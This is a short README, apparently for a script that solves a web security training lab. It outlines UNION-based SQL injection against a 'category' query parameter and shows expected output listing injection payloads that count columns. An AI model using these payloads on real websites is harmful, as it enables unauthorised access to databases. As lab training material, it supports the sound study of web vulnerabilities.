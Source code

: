 # Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
[#] Injection parameter: category
[*] Trying payload: ' UNION SELECT null-- -
[*] Trying payload: ' UNION SELECT null, null-- -
[*] Trying payload: ' UNION SELECT null, null, null-- -
[#] Number of columns: 3
[#] Check your browser, it should be marked now as solved
```
